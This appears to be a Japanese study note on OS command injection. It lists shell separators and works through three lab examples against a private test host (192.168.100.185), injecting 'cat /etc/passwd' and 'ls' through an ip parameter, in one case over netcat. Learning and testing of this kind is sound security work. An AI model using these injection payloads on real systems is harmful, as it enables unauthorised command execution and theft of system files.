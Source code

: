 >コマンド インジェクションは、脆弱なアプリケーションを介してホスト オペレーティング システム上で任意のコマンドを実行することを目的とする攻撃です。アプリケーションが安全でないユーザー提供データ (フォーム、Cookie、HTTP ヘッダーなど) をシステム シェルに渡すと、コマンド インジェクション攻撃が可能になります。この攻撃では、攻撃者が提供するオペレーティング システム コマンドは、通常、脆弱なアプリケーションの権限で実行されます。コマンド インジェクション攻撃は、主に不十分な入力検証が原因で発生する可能性があります。
コマンドインジェクションは、コマンドの一部として使用される情報のフィルタリングとエンコーディングの欠如から発生します。最も単純な例は、関数system（コマンドを実行する）を使用して、このコマンドの引数としてHTTPパラメータを取ることから来るものです。
## コマンドセパレータ
WindowsとUnixベースのシステムの両方で使用できます。
```
&
&&
|
||
```
Unix系システムでのみ動作
```
;
Newline (0x0a or \n)
```
Unix系システムでは、バックティックやドル文字を使って、元のコマンドの中で注入されたコマンドをインラインで実行することもできる。
```
`injected command `
$(injected command )
```
制御する入力が元のコマンドの引用符の中に表示されることがあります。このような場合、新しいコマンドを入力するために適切なシェルメタキャラクタを使用する前に、（" または ' を使用します）引用符で囲まれたコンテキストを終了させる必要があります。   


コマンドインジェクションを悪用する方法はたくさんあります。
- 例えば、<span style="color:DeepSkyBlue;">\`id\`</span>のように、バッククオートの中にコマンドを挿入する。
- 最初のコマンドの結果を 2 番目のコマンドにリダイレクトする:<span style="color:DeepSkyBlue;">｜id </span>
- 最初のコマンドが成功した場合に別のコマンドを実行する:<span style="color:DeepSkyBlue;"> && id </span>(ここで & はエンコードする必要がある)
- 最初のコマンドが失敗したら別のコマンドを実行する:（そしてそれが次のようになることを確認します：<span style="color:DeepSkyBlue;">error || id</span>（errorはここでエラーを起こすだけです）。
# <span style="color: blue;">Example 1</span>
```
http://192.168.100.185/commandexec/example1.php?ip=127.0.0.1
```
```
http://192.168.100.185/commandexec/example1.php?ip=127.0.0.1%20%26%26%20cat%20/etc/passwd
```
または
```
http://192.168.100.185/commandexec/example1.php?ip=127.0.0.1%20|%20cat%20/etc/passwd
```
# <span style="color: blue;">Example 2</span>
セパレータを注入する必要さえないことです。エンコードされた<span style="color:red;">改行(%0a)</span>を追加して、コマンドを入れるだけでいい
```
http://192.168.100.185/commandexec/example2.php?ip=127.0.0.1
```
```
http://192.168.100.185/commandexec/example2.php?ip=127.0.0.1%0acat%20/etc/passwd
```
# <span style="color: blue;">Example 3</span>
```
http://192.168.100.185/commandexec/example3.php?ip=127.0.0.1
```
ブラウザはリダイレクトに追従し、リダイレクト先のページを表示しないため、ブラウザでこの脆弱性を容易に利用することはできません。この問題を利用するには、netcat(telnet)を使用することができます。
```
nc 192.168.100.185 80                                                              
GET /commandexec/example3.php?ip=127.0.0.1;cat+/etc/passwd
```

```
echo -e "get http://192.168.100.185/commandexec/example3.php?ip=127.0.0.1;ls HTTP/1.1\r\nHost:192.168.100.185\r\n" | nc 192.168.100.185 80 -v | grep "ex"
```
![91d2965af2590369b85e1d0feda55849.png](../../_resources/91d2965af2590369b85e1d0feda55849.png)
